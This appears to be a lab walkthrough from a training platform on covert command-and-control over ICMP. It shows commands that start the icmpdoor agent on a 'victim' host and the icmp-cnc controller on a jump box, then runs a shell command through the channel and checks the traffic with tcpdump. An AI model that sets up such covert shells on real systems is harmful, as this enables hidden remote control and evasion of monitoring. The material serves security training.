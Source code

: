 | ![image](https://github.com/user-attachments/assets/9aeb810c-9cae-4a25-a33c-25fcf6cd556c) |
|-----------|
| *C2 Communication over ICMP Diagram* |


We have prepared the tools needed for C2 communication over the ICMP protocol on JumpBox and the ICMP-Host machines. First, we need to log in to the ICMP machine, icmp.thm.com, and execute the icmpdoor binary as follows,

```bash
🔴🟢🟡                        #Run the icmpdoor command on the ICMP-Host Machine
thm@icmp-host:~$ sudo icmpdoor -i eth0 -d 192.168.0.133
```

Note that we specify the interface to communicate over and the destination IP of the server-side.

Next, log in to the JumpBox and execute the $${\color{red}icmp-cnc}$$ binary to communicate with the victim, our **`ICMP-Host`**. Once the execution runs correctly, a communication channel is established over the ICMP protocol. Now we are ready to send the command that needs to be executed on the victim machine. 

```bash
🔴🟢🟡                        #The data that needs to be transferred
thm@jump-box$  sudo icmp-cnc -i eth1 -d 192.168.0.121
shell: hostname
hostname
shell: icmp-host
```

Similar to the client-side binary, ensure to select the interface for the communication as well as the destination IP. As the previous terminal shows, we requested to execute the **`hostname`** command, and we received **`icmp-host`**.

To confirm that all communications go through the ICMP protocol, we capture the network traffic during the communication using tcpdump as the following:
| ![image](https://github.com/user-attachments/assets/f66df225-582f-41c5-81f6-0a575ddd6583) |
|-----------|
| *Capture ICMP traffic using tcpdump Diagram* |

🎉*`End of Session`*🎉
